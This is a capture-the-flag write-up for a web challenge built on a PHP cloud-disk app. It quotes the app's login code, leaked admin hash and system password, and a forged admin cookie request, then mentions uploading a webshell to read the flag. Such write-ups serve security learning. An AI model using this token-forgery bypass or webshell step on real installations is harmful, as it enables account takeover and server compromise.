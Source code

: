 

## my-private-cloud-disk

its the most difficult of web category this game,You need to do a code audit 

First we can login by guest guest no admin permission we can't read /flag  so we need to login as admin first

search admin 

In system_member.php we can get

```
"name": "admin",
"path": "admin",
"password": "3cdacd625a9b6d55407e0a81a7a13c1b",
"userID": "1",
```

we can get password but we can't decode it, so we need to explore more

Notice this app/controller/user.class.php

```
	public function loginCheck(){
		// CSRF-TOKEN更新后同步;关闭X-CSRF-TOKEN的httpOnly
		if( ACT == 'commonJs' && isset($_SESSION['X-CSRF-TOKEN'])){
			$this->_setCsrfToken();
		}
		if(in_array(ST,$this->notCheckST)) return;//不需要判断的控制器
		if(in_array(ACT,$this->notCheckACT))   return;//不需要判断的action
		if(in_array(ST.'.'.ACT,$this->notCheckApp))   return;//不需要判断的对应入口

		if(isset($_SESSION['kodLogin']) && $_SESSION['kodLogin']===true && $this->user){
			$user = systemMember::getInfo($this->user['userID']);
			$this->_loginSuccess($user);
			return;
		}else if($_COOKIE['kodUserID']!='' && $_COOKIE['kodToken']!=''){
			$user = systemMember::getInfo($_COOKIE['kodUserID']);
			if (!is_array($user) || !isset($user['password'])) {
				$this->logout();
			}
			if($this->_makeLoginToken($user) === $_COOKIE['kodToken']){
				@session_start();//re start
				$_SESSION['kodLogin'] = true;
				$_SESSION['kodUser']= $user;
				$_SESSION['X-CSRF-TOKEN'] = rand_string(20);
				$this->_setCsrfToken();
				setcookie('kodUserID', $_COOKIE['kodUserID'], time()+3600*24*100);
				setcookie('kodToken',$_COOKIE['kodToken'],time()+3600*24*100);

				//check if session work
				@session_write_close();
				unset($_SESSION);
				@session_start();
				if( !isset($_SESSION['kodUser']) || 
					!is_array($_SESSION['kodUser'])){
					$this->login(DATA_PATH."<br/>".LNG('path_can_not_write_data') );
				}else{
					$this->_loginSuccess($user);
				}
				return;
			}
			$this->logout();//session user数据不存在
		}else{
			if ($this->config['settingSystem']['autoLogin'] != '1') {
				$this->logout();//不自动登录
			}else{
				if (!file_exists(USER_SYSTEM.'install.lock')) {
					$this->display('install.html');
					exit;
				}
				header('location:./index.php?user/loginSubmit&name=guest&password=guest');
				exit;
			}
		}
	}
```

```php
$user = systemMember::getInfo($this->user['userID']);
		$this->_loginSuccess($user);
if($this->_makeLoginToken($user) === $_COOKIE['kodToken'])
```

 $user is userID  if we input 1 that means admin and I noticed _makeLoginToken function 

```
//登陆token
	private function _makeLoginToken($userInfo){
		//$ua = $_SERVER['HTTP_USER_AGENT'];
		$system_pass = $this->config['settingSystem']['systemPassword'];
		return md5($userInfo['password'].$system_pass.$userInfo['userID']);
	}
```

if we know systemPassword we can get Token md5

we can find systemPassword in system_setting.php

```
"systemPassword": "xC2HhA5ikbJjEMUBASd3",
```

finally generate md5 use

```
/index.php?user/loginCheck

Cookie=kodUserID=1;kodToken=4f9747565d4dbcb9439016c9694bde9d
```

and we can login as admin upload a webshell 

and run ./readflag give me the flag

finally flag is MOCSCTF{N0t_A11_Cl0ud_Disk_1S_SSSAFE}